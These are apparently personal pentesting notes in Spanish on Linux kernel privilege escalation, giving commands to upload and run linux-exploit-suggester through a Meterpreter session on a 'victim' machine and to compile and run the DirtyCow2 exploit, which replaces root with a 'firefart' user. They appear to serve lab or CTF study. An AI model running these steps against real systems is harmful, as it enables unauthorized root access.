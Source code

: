 # Kernel 

Tags: #Kernel #DirtyCow2

Este binario nos brinda información del Kernel, además de mostrarnos algunos CVE que podemos explotar para poder elevar nuestros privilegios. 
* [Linux Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

```bash 
❯ sysinfo        # Nos muestra informacion de Linux, asi como la version del Kernel 
❯ getuid         # Nos muestra el username del servidor 
```

```bash 
# Descargar el Linux Suggester 
❯ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh 

# Esto lo hacemos estando en una sesion de Meterpreter 
❯ cd /tmp                           # Es un directorio con privilegios de escritura y de lectura 
❯ upload ~/Descktop/les.sh          # Cargamos el archivo a la maquina victima 
❯ shell                             # Obtener una sesion Shell y asi poder ejecutar el binario 
❯ chmod +x les.sh 
❯ ./les.sh                          # Ejecutamos el binario 
```

## DirtyCow2

* [DirtyCow2](https://www.exploit-db.com/exploits/40839)

```bash 
❯ apt install gcc                          # Instalar el GCC
```

```bash 
# Se puede usar en el Kernel 2.6.22 < 3.9
❯ gcc -pthread dirty.c -o dirty -lcrypt     # compilar el binario y nos regresa un nuevo archivo llamado 'dirty'
❯ chmod +x dirty 
❯ ./dirty <passwd>                          # Ejecutamos el binario y le colocamos la passwd que queramos

# Este binario nos va a crear un usuario llamado 'firefart' y lo reemplazara en el usuario 'root' 

❯ su firefart                               # Colocamos la passwd que ingresamos al momento de ejecutarlo y ahora seremos root
❯ ssh firefart@<IP>                         # Tambien podemos ingresar por SSH
	❯ ssh-keygen -f "/homekali/.ssh/known_hosts" -R "<IP>" # Si nos da un problema al momento de ingresar por SSH, colocamos ese comando y lo volvemos a intentar por SSH con el comando anterior 
```